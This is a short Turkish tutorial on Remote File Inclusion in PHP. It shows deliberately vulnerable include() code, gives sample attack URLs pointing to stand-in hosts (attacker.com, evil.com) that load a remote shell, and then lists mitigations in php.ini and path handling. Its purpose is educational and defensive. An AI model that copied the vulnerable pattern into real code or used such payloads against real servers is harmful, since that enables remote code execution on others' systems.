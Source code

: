 # RFI Nedir
RFI (Remote File Inclusion), uzak bir sunucudaki dosyanın hedef uygulamaya include edilmesi ile ortaya çıkan bir zafiyet türüdür. Genellikle PHP gibi dinamik olarak dosya çağırabilen dillerde görülür. Uygulama, kullanıcıdan gelen bir parametreyi include(), require() gibi fonksiyona doğrudan dosya olarak çağırırsa ve geliştirici herhangi bir input validation / whitelist kontrolü yapmamışsa, saldırgan http://evil.com/shell.php gibi bir URL göndererek kendi dosyasını çalıştırabilir.

Örnek Zafiyetli Kod:
```php
<?php
$page = $_GET['page'];
include($page . ".php");
?>
```

Normalde ?page=home → include("home.php"); çalışır ancak filtre yoksa:
```
?page=http://attacker.com/shell
```

Uzak dosya çekilir ve sunucu üzerinde saldırgan’ın kodu çalışır.

# RFI Zafiyetini Önlemek
php.ini ayarları aşağıdaki gibi yapılırsa uzak dosya çağırmayı tamamen engeller.
```
allow_url_fopen = Off
allow_url_include = Off
```

Absolute path:
```php
include("/var/www/html/pages/" . basename($_GET['page']) . ".php");
```
